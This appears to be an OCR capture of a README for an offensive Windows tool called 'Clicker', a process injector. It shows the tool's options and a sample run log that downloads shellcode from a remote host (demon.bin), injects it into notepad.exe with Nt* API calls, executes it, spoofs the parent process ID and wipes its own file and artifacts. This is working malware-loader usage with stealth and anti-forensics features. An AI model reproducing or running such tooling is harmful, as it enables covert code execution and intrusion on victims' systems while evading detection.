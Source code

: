 ```
      `:. `:.             .             .:'  .:'
       `::. `::           !           ::' .::'
           `::.`::.    .' ! `.    .::'.::'
             `:.  `::::'':!:``::::'   ::'
             :'*:::.  .:' ! `:.  .:::*`:
            :: HHH::.   ` ! '   .::HHH ::
           ::: `H TH::.  `!'  .::HT H' :::
           ::..  `THHH:`:   :':HHHT'  ..::
           `::      `T: `. .' :T'      ::'
             `:. .   :         :   . .:'
               `::'               `::'
                 :'  .`.  .  .'.  `:
                 :' ::.       .:: `:
                 :' `:::     :::' `:
                  `.  ``     ''  .'
                   :`...........':
                   ` :`.     .': '
                    `:  `"""'  :'   Clicker
                    
Process Injector 2: Clicker (Nt*API)

  -u, --url      Required. Remote URL address for raw shellcode.

  -t, --target   Specify the target/victim process. Default: Self-injection

  -p, --parent   Spoof victim process under a Parent Process ID (This option is ignored for self-injection)

  -k, --kill     Enable self-destruct to auto wipe file from disk.

  -h, --help     Display help screen manual.
  
|--------------
| Payload       : http://192.168.231.128:9090/demon.bin
| Process       : C:\Windows\System32\notepad.exe
| PPID Spoofing : 4160
| Self Destruct : True
|--------------

[>] CreateProcessW()
    |-> Target Process Created!
    |-> PID: 13092

[>] Fetching Payload
    |-> Payload retrieved successfully!

[>] NtAllocateVirtualMemory()
    |-> Base Address: 0x23229800000

[>] NtWriteVirtualMemory()
    |-> Shellcode Injected!

[>] NtProtectVirtualMemory()
    |-> Flipping Memory Protection!

[>] NtCreateThreadEx()
    |-> Shellcode Executed!

[>] DeleteProcThreadAttributeList()
    |-> Deleting Process Artifacts!

[>] CloseHandle()
    |-> Closing Process Handle!
```
